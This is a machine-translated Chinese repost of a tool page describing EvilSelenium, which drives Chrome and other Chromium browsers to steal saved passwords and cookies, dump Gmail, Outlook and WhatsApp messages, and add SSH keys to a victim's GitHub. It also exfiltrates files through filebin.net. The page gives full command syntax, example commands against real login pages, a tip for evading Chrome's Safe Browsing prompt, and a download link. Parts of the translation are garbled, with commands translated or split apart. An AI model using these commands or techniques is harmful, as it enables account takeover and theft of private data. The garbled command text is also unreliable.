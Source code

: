 # EvilSelenium:一个将 Selenium 武器化以攻击基于 Chromium 的浏览器的工具

> 原文：<https://kalilinuxtutorials.com/evilselenium/>

[![](img//5b136ef014dc31f54fd8568b8e356b15.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgw6QUKnZGAh6pGVriRqEmkHy8izJ_VxQ5jtOl4RiD9a2IOAmZLrY0wzL06TGm9lRukdrStNFFdUFX9nznNxKhGBtrqhgWxM1m6jzpT5URX3olzemPp5F_zmCQkRKR1nMig_BWgfTCQbrajVd2f2IjryRFIRCEG51zcZgbGHh-UIUWdPEpmYZNgPmrA/s728/d301f8da.png)

**EvilSelenium** 是一个新项目，将 Selenium 武器化以滥用基于铬的浏览器。目前的特点是:

*   窃取存储的凭据(通过自动填充)
*   偷饼干
*   抓取网站截图
*   转储 Gmail/O365 电子邮件
*   转储 WhatsApp 消息
*   下载和导出文件
*   向 GitHub 添加 SSH 密钥

或者扩展现有功能以满足您的需求(例如，从用户的 GDrive/OneDrive 下载文件)。

## 使用

**EvilSelenium.exe/？
/help–显示此帮助菜单。
设置:
/安装–安装 chrome driver&Selenium web driver。运行一次。
全局:(接受每个命令)
/browser dir[appdata _ local _ routing]–使用自定义浏览器，输入应该是%appdatalocal% dir 内的路由(例如“Microsoft \ Edge”)
RECON:
/enumsavedsites[out _ path]–通过截图检查哪些网站保存了密码。
/截图【网站】【out _ path】–给定网页截图。
凭证:
/自动运行——从常用网站提取保存的凭证。
/dynamic id[log in _ page][username _ ID][password _ ID]–从网站提取保存的凭据，提供用户名字段 ID &密码字段 ID。
/dynamic name[log in _ page][username _ name][password _ name]–从网站提取保存的凭据，提供用户名字段名称值&密码名称值。
/dynamic name 2[log in _ page][username _ position][password _ position][username _ name][password _ name]–从网站提取保存的凭据，提供用户名字段名称值、密码名称值及其位置。
COOKIES:
/COOKIES[网站]–抓取给定网站的 COOKIES。
模块:
/download[file _ URL][seconds]–下载文件并指定等待下载完成的时间。文件扩展名不应该是可执行的。
/exfil[local _ file][seconds]–在 filebin.net 上上传文件并输出下载链接。
/Gmail[out _ path][num _ of _ emails]–如果用户通过身份验证，则从 mail.google.com 获取电子邮件。最多 50 封电子邮件。
/outlook[out _ path][num _ of _ emails]–如果用户通过身份验证，则从 Outlook 获取电子邮件。
/O365[输出路径][电子邮件数量]–如果用户通过验证，则从 O365 Outlook 获取电子邮件。
/github[key]–如果用户通过验证，将您的 SSH 密钥添加到 Github。
/whatsapp[out _ path]–如果用户通过验证，则获取 Whatsapp 消息(BETA)。**

# 设置

`**/install**`命令将下载 Chrome 驱动和 Selenium WebDriver，这是必要的需求。EvilSelenium 将在 Chrome 版本 100-90 上运行。

**在 Windows 10 上测试，Chrome v97 & v90。**

**EvilSelenium.exe/安装**

# 全局配置

默认情况下，EvilSelenium 将尝试使用 Google Chrome 的用户数据文件夹来检索数据，但也支持其他基于 Chromium 的浏览器。
为了使用不同的基于 Chrome 的浏览器，你应该在`**%localappdata%**`目录中的浏览器路由后添加`**/browserdir**`。以下是一些常见浏览器的示例(应该添加到任何 CLI 命令中):

1.  **勇敢的**–`**/browserdir BraveSoftware\Brave-Browser**`
2.  **微软 Edge**–`**/browserdir Microsoft\Edge**`
3.  **维瓦尔第**–`**/browserdir Vivaldi**`

# 侦察舱

**`/enumsavedsites`**——这个会截图 chrome://设置/密码

`**/screenshot**`–截图任意网站。如果用户通过了网站认证，那么您将获得经过认证的屏幕截图:)。

# 凭证模块

**重要提示:**凭证模块将**删除 cookie**以便从自动填充中窃取凭证。理想情况下，如果要导出 cookies，应该在最后使用凭证模块。

`**/autorun**`–常用网站的预建模板。我会继续补充更多。

**`/dynamicid`**–提供登录 URL 以及用户名输入字段的 ID 和密码字段的 ID。这相当于 document.getElementById()。

`**/dynamicname**`–如果字段没有 id，则提供字段的名称值。它将选择名称值的第一个索引。这相当于 document . getelementsbyname()[0]. value。

**`/dynamicname2`**–提供字段的名称值及其索引位置。这相当于 document . getelementsbyname()[x]。值，其中 x 是提供的位置。

# cookie 模块

`**/cookies**`–从指定网站转储 cookies。

# 其他模块

这些是我构建的附加模块，用来演示使用 Selenium 可以做什么样的操作。

`**/download**`–下载文件&指定等待下载的时间。下载前应该给文件附加一个不可执行的文件扩展名，以避开 Chrome 的安全浏览提示。

`**/exfil**`–在 filebin.net 上上传文件&指定等待上传完成的时间。一旦上传完成，文件的下载链接被写入。

`**/gmail**`–如果用户通过验证，则从 mail.google.com 获取电子邮件。最多 50 封电子邮件。

`**/outlook**`–如果用户通过验证，则从 Outlook 获取电子邮件。

`**/o365**`–如果用户通过验证，从 O365 Outlook 获取电子邮件。

`**/github**`–如果用户通过验证，将您的 SSH 密钥添加到 Github。

`**/whatsapp**`–如果用户通过验证，则获取 Whatsapp 消息(测试版)。

# 命令示例

**EvilSelenium.exe/截图 https://mail.google.com c:\ users \ Mr . d0x \ downloads
EvilSelenium.exe/dynamic id https://www.hybrid-analysis.com/login log in _ email log in _ password
EvilSelenium.exe/dynamic name https://linkedin.com session _ key session _ password**

[**Download**](https://github.com/mrd0x/EvilSelenium)